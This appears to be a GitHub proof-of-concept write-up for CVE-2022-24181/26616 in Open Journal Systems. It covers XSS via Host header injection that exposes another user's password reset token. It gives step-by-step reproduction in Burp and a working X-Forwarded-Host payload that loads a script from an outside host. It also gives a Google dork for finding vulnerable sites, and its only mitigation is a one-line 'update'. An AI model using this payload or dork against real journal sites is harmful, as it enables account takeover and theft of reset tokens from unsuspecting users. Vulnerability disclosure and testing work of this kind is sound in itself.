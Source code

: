 CVE-2022-24181 and CVE-2022-26616. both are probably same
# Open-journal-system-Vulnerability
XSS via Host Header injection and Steal  Password Reset Token of another user
Step to reproduce:
1) Go to this site: https://who's-using-ojs-software.com
2) And capture this request in burp , and send to repeater.
3) Add this after Host Header  X-Forwarded-Host: foo"><script src=//dtf.pw/2.js></script><x=".com
4) And this click on send , after this right click on request and click on show response in browser , after this copy the request.
5) Paste this request in browser , and you'll see xss pop-up.
Mitigation: Update to newer version.

Google Dork to find This vulnerability
intitle:ojs
This vulnerability in PKP vendor software Open-journal-system version 2.4.8 to 3.3.8 all are vulnerable to xss via Host Header injection and steal password reset token vulnerability
